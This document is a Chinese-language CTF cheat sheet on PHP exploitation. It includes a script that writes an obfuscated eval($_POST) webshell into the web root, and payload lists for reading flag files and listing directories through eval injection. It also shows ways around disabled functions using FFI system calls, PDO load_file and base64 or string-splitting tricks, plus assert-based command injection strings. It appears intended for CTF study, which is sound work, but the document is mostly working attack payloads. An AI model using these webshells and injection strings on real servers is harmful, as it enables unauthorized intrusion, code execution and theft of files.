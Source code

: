 在线php运行：<https://www.jyshare.com/compile/1/>

php执行的方式，php -r 不需要php后缀，可能出现题型。
```
php：这是最基本的PHP命令，用于执行指定的PHP脚本文件。例如，php script.php 会执行名为 script.php 的PHP脚本。

php -f：这个命令用于执行一个PHP脚本文件，与不带 -f 参数的 php 命令类似。两者都可以运行给定的PHP文件，没有限制可以执行哪种文件，文件名也不必用 .php 作为扩展名。

php -r：这个命令用于在命令行中直接传递PHP代码执行。必须特别注意shell变量的替代及引号的使用。使用 -r 参数后不需要开始和结束标识符，并且加上它们还会导致语法错误。例如，php -r 'print_r(get_defined_constants());' 会直接执行括号内的PHP代码。

区别：
php 和 php -f 都用于执行PHP脚本文件，但 -f 参数可以明确指示PHP解释器直接从指定的文件中读取并执行代码。
php -r 用于在命令行中直接执行一行或多行PHP代码，而不是从文件中读取。这种方式适合快速测试小段代码或在脚本中嵌入PHP代码。
使用 php -r 时，不需要提供PHP代码的开始和结束标签 <?php ?>，而 php 和 php -f 执行的是完整的PHP脚本文件，这些文件中包含了这些标签。


php -f 配合下面文件进行写木马：
<?php
$a = '<?ph'.'p ev'.'al($_PO'.'ST[1]);?>';
file_put_contents('/var/www/html/1.php',$a);
?>
```

## **php常见特殊函数和绕过**
**文件包含函数 绕过一些禁用函数**
如果是eval($_POST('c'))，直接蚁剑连，用插件绕过
```
c=highlight_file("config.php");        //文件内容包含高亮。
c=highlight_file($_GET[1])&1=flag.php

c=show_source('flag.php');
c=highlight_file(next(array_reverse(scandir(pos(localeconv())))));
c=print_r(scandir(dirname('__FILE__')));
// ( [0] => 。 [1] => .. [2] => flag.php [3] => index.php ) 
c=var_dump(file('flag.php'));
c=readfile('flag.php');
c=print_r(file('flag.php'));
c=show_source(file(''flag.php));
c=echo file_get_contents('flag.php');
c=include('/flag.txt');
c=require('/flag.txt');
c=require_once('/flag.txt');

c=try {$dbh = new PDO('mysql:host=localhost;dbname=ctftraining', 'root','root');foreach($dbh->query('select load_file("/flag36.txt")') as $row){echo($row[0])."|"; }$dbh = null;}catch (PDOException $e) {echo $e->getMessage();exit(0);}exit(0);

```
查目录
```
c=var_dump(scandir('/'));

c=$a=new DirectoryIterator('glob:///*');foreach($a as $f){echo($f->__toString()." ");}//glob的作用是规定后面的匹配格式，查找匹配的文件路径模式

c=$a=scandir("/");foreach($a as $key=>$value){echo $key."=>".$value;}

c=var_export(scandir('/'));exit(); 
//停掉后面的限制函数如ob_end_clean()会清除缓冲不会输出内容。会输出很多???????????
c=include('/flag.txt');die();
```
```
print_r(file_get_contents(/flagg')); //打印获取文件的内容
var_dump(scandir(/);  //查看根目录
var_dump(scandir(chr(47))); //查看根目录

var_dump(file_get_contents(/flagg')); //打印获取文件的内容。file_get_content()也可以读取php://filter伪协议。
var_dump(file_get_contents(chr(47).chr(102).chr(49).chr(97).chr(103).chr(103)));  //绕过打印flag
```

根目录下有/readflag程序
```
c=$ffi = FFI::cdef("int system(char *command);", "libc.so.6");$a='/readflag > 1.txt';$ffi->system($a);exit();
然后访问ip/1.txt
```


^
## **代码执行函数**
eval('system('cat /flag'); ');         //会将字符串当作PHP代码执行，注意分号。
eval('system('cat /flag')?> ');    // 分号可以用?>替换。 且后面代码也会正常执行。

```
对于eval($_GET('c'));题

/?c=eval($_GET[a]);&a=system('cat flag.php');  //绕过eval有限制。
/?c=eval($_GET[a])?>&a=system('cat flag.php');  //绕过eval有限制。过滤了;
eval('eval($_GET[a])?>')  

/?c=include"$_GET[a]"?>&a=php://filter/read=convert.base64-encode/resource=flag.php //过滤了(
/?c=include$_GET[a]?>&a=php://filter/read=convert.base64-encode/resource=flag.php //过滤了( 双引号"
```
eval("$x='sys';  $y='tem';  $z=$x.$y;  $z('cat config.php');" );         //绕过过滤。

eval('base64_decode("c3lzdGVt");$b=base64_decode("Y2F0IGNvbmZpZy5waHA=");$a($b);');        //base64编码绕过。

assert()可以将整个字符串参数当作php参数执行
而类似的eval()函数是执行合法的php代码，eval()里的引号必须是双引号，因为单引号不能解析字符串里的变量$str，且必须以分号结尾，函数调用除外。
```
<?php
echo eval(echo 1);
?>
不行，需改成下面：
<?php
echo eval("echo 1;");
?>
```


^
^
当前目录文件全部看cat *
命令执行找flag文件：find / -name flag*
递归搜当前目录下内容：grep -r "flag{" .

php内的"\"在做代码执行的时候，会识别特殊字符串，绕过黑名单。
如\system


^
## **命令拼接**
```
if (isset($_GET['page'])) {
	$page = $_GET['page'];
} 

$file = "templates/" . $page . ".php";

assert("strpos('$file', '..') === false") or die("Detected hacking attempt!");
```
闭合，拼接，注释
```
').phpinfo();//
').system("cat templates/flag.php");//
').system('cat templates/flag.php');//
').system('ls');//
```
